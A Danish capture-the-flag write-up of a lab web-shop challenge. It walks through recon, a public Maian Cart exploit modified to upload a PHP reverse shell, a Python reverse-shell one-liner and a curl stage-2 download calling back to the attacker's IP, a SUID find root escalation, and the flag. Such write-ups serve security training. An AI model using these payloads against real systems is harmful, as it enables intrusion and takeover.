









# Forretningen Writeup

## Challenge information
Navn: Forretningen

Forslået Sværhedsgrad: Mellem

Haaukins API: Ja

Beskrivelse: Alle de ting man kan købe på http://forretningen.hkn, omg waw

## Writeup

### Recon
Jeg kørte en nmap skanning med:
```nmap -sV forretningen.hkn -vvv```

```-sV``` fortæller nmap jeg gerne vil lave service version skan.

```forretningen.hkn``` er domænet/IP'en vi gerne vil skanne
```-vvv``` fortæller jeg gerne vil have very verbose output fra nmap (Jeg kan godt lide at se hvad den laver)

Output:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-11 12:06 EST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 12:06
Scanning forretningen.hkn (77.231.172.85) [2 ports]
Completed Ping Scan at 12:06, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:06
Completed Parallel DNS resolution of 1 host. at 12:06, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 12:06
Scanning forretningen.hkn (77.231.172.85) [1000 ports]
Discovered open port 80/tcp on 77.231.172.85
Completed Connect Scan at 12:06, 0.03s elapsed (1000 total ports)
Initiating Service scan at 12:06
Scanning 1 service on forretningen.hkn (77.231.172.85)
Completed Service scan at 12:06, 6.63s elapsed (1 service on 1 host)
NSE: Script scanning 77.231.172.85.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 12:06
Completed NSE at 12:06, 0.06s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 12:06
Completed NSE at 12:06, 0.12s elapsed
Nmap scan report for forretningen.hkn (77.231.172.85)
Host is up, received syn-ack (0.00043s latency).
Scanned at 2022-03-11 12:06:38 EST for 7s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

Dvs. der umiddelbart kun er en web server kørende på forretningen.hkn på port 80.

Hvis vi tilgår denne via. http får vi en webshop side:



Efter at klikke lidt rundt på siden og lede efter lavt hængende frugter, kørte jeg dirb på den:

```dirb http://forretningen.hkn```

Output:
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar 11 12:10:06 2022
URL_BASE: http://forretningen.hkn/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://forretningen.hkn/ ----
==> DIRECTORY: http://forretningen.hkn/admin/                                  
==> DIRECTORY: http://forretningen.hkn/checkout/                               
==> DIRECTORY: http://forretningen.hkn/content/                                
==> DIRECTORY: http://forretningen.hkn/control/                                
==> DIRECTORY: http://forretningen.hkn/docs/                                   
+ http://forretningen.hkn/favicon.ico (CODE:200|SIZE:1406)                     
+ http://forretningen.hkn/index.php (CODE:200|SIZE:55220)                      
==> DIRECTORY: http://forretningen.hkn/logs/                                   
+ http://forretningen.hkn/robots.txt (CODE:200|SIZE:202)                       
+ http://forretningen.hkn/server-status (CODE:403|SIZE:281)                    
                                                                               
---- Entering directory: http://forretningen.hkn/admin/ ----
==> DIRECTORY: http://forretningen.hkn/admin/attachments/                      
==> DIRECTORY: http://forretningen.hkn/admin/control/                          
+ http://forretningen.hkn/admin/favicon.ico (CODE:200|SIZE:5686)               
==> DIRECTORY: http://forretningen.hkn/admin/import/                           
+ http://forretningen.hkn/admin/index.php (CODE:302|SIZE:0)                    
==> DIRECTORY: http://forretningen.hkn/admin/templates/                        
                                                                               
---- Entering directory: http://forretningen.hkn/checkout/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/control/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://forretningen.hkn/docs/ ----
==> DIRECTORY: http://forretningen.hkn/docs/content/                           
==> DIRECTORY: http://forretningen.hkn/docs/examples/                          
+ http://forretningen.hkn/docs/favicon.ico (CODE:200|SIZE:1150)                
+ http://forretningen.hkn/docs/index.html (CODE:200|SIZE:7298)                 
                                                                               
---- Entering directory: http://forretningen.hkn/logs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/attachments/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/control/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/import/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/templates/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/docs/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/docs/examples/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
```

Efter at have kigget rundt i de forskellige directories fandt jeg en interessant side under /docs:



Så frameworket der bliver brugt her er Maian Cart.

Efter let eftersøgning fandt jeg følgende exploit til dette framework: https://www.exploit-db.com/exploits/50394

### Foothold
Kørsel af exploit giver en "shell" men denne shell er egentlig bare en kommando vi sender til en php fil der kører ```system(kommando)```.

Eksempel på kørsel og at vi ikke kan lave f.eks. cd kan ses her:


Vi er derved nødt til at lave en rigtig reverse shell, for at vi kan lave privilege escalation og har fuld kontrol over systemet.

Jeg valgte at modificere den originale payload, så vi istedet for at uploade en php fil der ser sådan her ud:
```php
<?php system($_GET["cmd"]) ?>"
```

Vil vi istedet uploade en fuld reverse shell.

Jeg valgte at bruge [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) da jeg har erfaring med denne. Men en hvilket som helst burde virke.

Efter at have downloaded pentestmonkeys php reverse shell script, modificerede jeg variablerne $ip og $port til at inkludere min haaukins IP og bruge port 13337

Derefter modificerede jeg exploit scriptet fra exploitdb som følgende:

På linje 75 hvor den sætter data variablen og inkluderer en payload modificerede jeg det til at åbne vores reverse shell og sende denne istedet:

Fra:
```python
data = f"cmd=put&target={file_id}&content=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%20%3F%3E"
```

Til:
```python
payload = ""

with open("revshell.php") as file:
    payload = file.read()

data = f"cmd=put&target={file_id}&content={payload}"
```

Derudover ændrede jeg navnet på php scriptet uploaded på linje 35:

Fra:
```python
    r = requests.get(f"{host}{directory}/admin/index.php?p=ajax-ops&op=elfinder&cmd=mkfile&name=shell.php&target=l1_Lw")
```

Til:
```python
    r = requests.get(f"{host}{directory}/admin/index.php?p=ajax-ops&op=elfinder&cmd=mkfile&name=revshell.php&target=l1_Lw")
```

Til sidst fjernede jeg det sidste ```while True:``` loop den laver, da jeg ikke har brug for dens "Interaktive shell" længere. Og tilføjede en print statement istedet

Derefter kørte jeg exploiten:



Startede derefter en nc listener på port 13337 og gik til linket http://forretningen.hkn/product-downloads/revshell.php via. min browser. Hvilket gav en rigtig shell:



Modificeret exploit kan findes i current directory af denne folder og hedder "exploit.py"

### Privilege escalation
Jeg ville gerne køre linpeas på serveren, men dette er ikke inkluderet til kali installationen.

At kopiere store filer som linpeas over til maskinen er ikke det nemmeste, her er min løsning på problemet:

1. Download [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20220310)
2. lav den til en tar.gz fil: ```tar -czvf linpeas.tar.gz linpeas.sh```
3. base64 encode den: ```cat linpeas.tar.gz | base64 > linpeas.b64```
4. Kopiér base64 strengen over i browser VM'en og gem den i en fil
5. base64 decode filen: ```cat linpeas.b64 | base64 -d > linpeas.tar.gz```
6. gunzip den: ```gunzip linpeas.tar.gz```

Derefter kunne jeg uploade den til serveren ved først at starte en simpel http server på min klient fra den folder jeg har linpeas.sh liggende:
```python3 -m http.server```

Derefter kunne jeg downloade den på serveren vha.
```curl http://<MinHaaukinsIP>:8000/linpeas.sh```

og køre den efter at have gjort den executable.

linpeas finder en SUID binary der hedder ```/usr/bin/find```.

Hvis vi kigger på [gtfobins](https://gtfobins.github.io/) kan vi se at vi kan eskalere vores privilegier igennem denne binary ved at køre:

```/usr/bin/find . -exec /bin/sh -p \; -quit```



Vi har dermed root og kan printe flaget i /root/flag.txt!

```DDC{l4D_m1G_h4ck3_d3n_f0rr3tn1ng_h3h3h3h3h3h3h3}```

## Side note: Foothold part 2
Dette var min metode at få foothold på. Jeg fandt det nemmere at uploade en php fil, som jeg nemt kunne tilgå igen, hvis jeg mistede min reverse shell.

Men for folk lidt nyere til cybersikkerhed, kan det godt virke overvældende at downloade, læse og forstå en exploit, for derefter at modificere den.

Jeg har derfor lavet denne sektion, til at forklare nogle andre måder at opgradere sin shell fra pseudo shell, som ikke kræver man modificerer den originale exploit.

Istedet bruger man den originale exploits funktionalitet til at spawne en reverse shell. Dette kræver dog flere trin at reproducere. Jeg plejer personligt at undgå dette, da jeg gerne hurtigt vil kunne reproducere mine trin, i tilfælde af jeg mister forbindelse eller lignende til boksen. Men dette vil være nemmere for nybegyndere at gå til.

### Step 1. Kør original exploit og enumerér.
Efter du har kørt din originale exploit får du en pseudo shell, hvor du kan køre simple kommandoer i.

Du kan bruge denne shell til at enumere hvilke programmer eksisterer på maskinen. Jeg plejer gerne at lede efter curl og wget, da jeg derved kan downloade en stage 2 payload og køre denne via. min pseudo shell.

Derudover plejer jeg også at lede efter python, da python er nem at downloade en reverse shell payload til, som er relativ kort, men også har simple one-liners der virker ret ofte.

Du kan søge efter programmer på path vha. ```which programnavn``` og se om de eksisterer. Her kan du se et eksempel på boksen hvor jeg finder curl og python men ingen wget:



### Step 2.1. Reverse shell med one-liner

Du kan derefter hente en reverse shell fra feks. PayloadAllTheThings og køre denne via. din pseudo shell.

Eksempel:


For denne challenge virker dette, men det er ikke altid dette vil. Nogen gange skal man sidde og bøvle i lang tid med escape characters mm. for at man kan få sin one-liner igennem, hvilket ikke er ideelt.

Hvis dette sker, kan vi istedet kigge på at downloade en stage 2 og køre den:

### Step 2.2 Reverse shell med download

Lad os tage den originale payload og omskrive den til et python script istedet:
```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("77.210.13.4",13337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

python -c betyder bare: Kør python med det her som kommando.

Semikolonerne viser det er slutningen af en kommando og kan byttes ud med en newline.

Så omskrevet, vil denne one-liner se sådan her ud:

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("77.210.13.4",13337))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/sh")
```

Vi kan derefter gemme dette i en fil på vores host og starte en simple http server via. python fra den samme folder:

På din maskine:

```python3 -m http.server```

På server via. pseudo shell:

Vi kan derefter hente vores payload.

```curl http://77.210.13.4:8000/stage2.py -o /tmp/stage2.py```

Og derefter køre den:

```python /tmp/stage2.py```



Derved har vi nu kigget på 3 metoder at opgradere sin shell fra en pseudo shell til en rigtig shell :-)


